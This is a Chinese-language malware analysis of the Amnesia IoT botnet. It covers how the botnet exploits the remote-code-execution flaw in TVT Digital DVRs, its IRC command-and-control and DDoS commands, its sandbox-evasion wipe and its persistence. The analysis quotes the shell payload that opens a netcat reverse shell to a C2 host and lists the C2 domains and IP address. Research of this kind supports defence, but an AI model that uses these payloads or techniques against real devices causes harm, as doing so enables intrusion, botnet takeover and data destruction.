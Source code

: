 
# Amnesia Collection

### 一、Collection 1

> Amnesia家族
Amnesia僵尸网络的目标是未经修补、存在远程代码执行漏洞的设备。该漏洞于一年前于2016年3月在由TVT Digital制作的DVR（数字录像机）设备中公开披露，并由全球70多家供应商进行品牌宣传。

根据扫描数据，这个漏洞影响全球大约22.7万台设备，其中台湾，美国，以色列，土耳其和印度是最受欢迎的设备。

Amnesia恶意软件是第一个采用虚拟机逃逸技术来绕过linux沙箱保护的恶意软件。虚拟机逃逸技术通常与MicrosoftWindows和Google Android恶意软件相关联。

与这些类似，Amnesia试图检测它是否运行在基于VirtualBox，VMware或QEMU的虚拟机上，如果它检测到这些环境，它将通过删除文件系统中的所有文件来擦除虚拟化的Linux系统。这不仅会影响Linux恶意软件分析沙箱，还会影响VPS或公共云上的一些基于QEMU的Linux服务器。

Amnesia通过扫描，定位易受攻击的设备来利用这个远程代码执行漏洞，一次成功的攻击就可导致Amnesia获得设备的完全控制。

技术细节：

2016年3月22日，安全研究员Rotem Kerner向公众披露了这个漏洞。根据他的博客，全球有超过70家DVR供应商受到这个漏洞的影响。但是，所有的DVR设备都是由同一家公司“TVT Digital”生产的。

此外，通过使用“Web服务器”的指纹，安全研究者发现超过22.7万个设备暴露在互联网上，可能是由TVT数字公司生产的。

我们还搜索了Shodan.io和Censys.io上的关键字。他们分别报告了约50,000和约705,000个IP地址，下面显示了潜在易受攻击的TVT数字DVR设备排名前20位的国家/地区：

潜在易受影响的TVT DVR数字设备的前20个国家/地区

漏洞利用和exploit开发

Amnesia僵尸网络使用IRC协议与其C2服务器进行通信。下图显示了它可接收的一些命令，包括通过不同类型的HTTP泛洪和UDP泛洪来发起DDoS攻击。

Amnesia家族所用的C2命令，除了这些命令外，还实施了两个命令：CCTVSCANNER和CCTVPROCS。

这些命令用于扫描和利用TVT数字硬盘录像机的RCE漏洞。接收到命令后，Amnesia首先会对该命令包含的IP地址进行简单的HTTP请求，检查目标是否为易受攻击的DVR设备。

这是通过在HTTP响应内容中搜索一个特殊的字符串“Cross Web Server”完成的。如图所示，因为TVT Digital的DVR使用这个字符串作为HTTP头中的服务器名称。

上图通过指纹检查目标是否是易受攻击的DVR

如果发现一个易受攻击的DVR，Amnesia将发送四个HTTP请求，其中包含四个不同shell命令的payload，这些命令是：

echo “nc” &gt; f

echo “{one_of_c2_domains}” &gt;&gt; f

echo “8888 –e $SHELL” &gt;&gt; f

$(cat f) &amp; &gt; r

这些命令创建一个shell脚本并执行它。脚本内容是与Amnesia C2服务器之一连接，并获取shell。因此，受感染的设备将会受到威胁，并会侦听来自C2服务器的进一步shell命令，如下图所示

反取证

当Amnesia样本执行时，它会通过读取文件 / sys / class / dmi / id / product_name和 / sys / class / dmi / id / sys_vendor并且将文件内容与关键字“VirtualBox “，”VMware“和”QEMU“，Linux DMI（桌面管理界面）使用这两个文件来存储硬件的产品和制造商信息。这些包含在DMI文件中的字符串意味着Linux系统分别在基于VirtualBox，VMware或QEMU的虚拟机中运行。

如果检测到虚拟机，Amnesia会自行删除，然后尝试删除所有以下目录：

Linux根目录“/”，

当前用户的主目录“/”和

当前工作目录“./

这些删除操作基本上等同于擦除整个Linux系统。它们是通过简单地执行shell命令“rm -rf”来实现的，如下图所示。对于每个目录，“rm”命令将被执行两次 –一个在后台，一个在前台。因此，删除这三个目录将是平行的。最后，Amnesia等待删除完成。

Amnesia的作者正打算击败基于Linux的恶意软件分析沙箱，并且由于代码中的硬编码字符串（“fxxkwhitehats”）而给安全研究人员带来麻烦。但是，基于虚拟机的沙箱通常会启用系统快照，从而可以快速恢复到原始状态（尽管样本的分析任务可能会被破坏）在这些情况下，影响将受到限制。

真正的问题是，如果恶意软件感染了某些基于QEMU的Linux服务器实例，比如VPS厂商提供的虚拟主机，则Linux服务器也将被清除，如果备份不可用，这可能是灾难性的。

VM检查后，Amnesia会在/etc/init.d/.rebootime和/etc/cron.daily/.reboottime或/ .bashrc和/ .bash_history中创建持久性文件，具体取决于当前用户的权限。然后杀死所有Telnet和SSH相关的进程，并连接到C2服务器以接收更多命令。

Amnesia硬编码的三个域名，“irc.freenode.net”作为诱饵C2服务器地址。然而，真正的C2配置在运行时通过简单的凯撒密码算法进行解密。它选择这三个服务器之一：

ukranianhorseriding[.]net

surrealzxc.co[.]za

inversefierceapplied[.]pw

自2016年12月1日起，所有这三个域名均已解析为相同的IP地址93.174.95 .38。在此之前，IP地址还用于托管其他物联网/Linux恶意软件，如DropPerl。
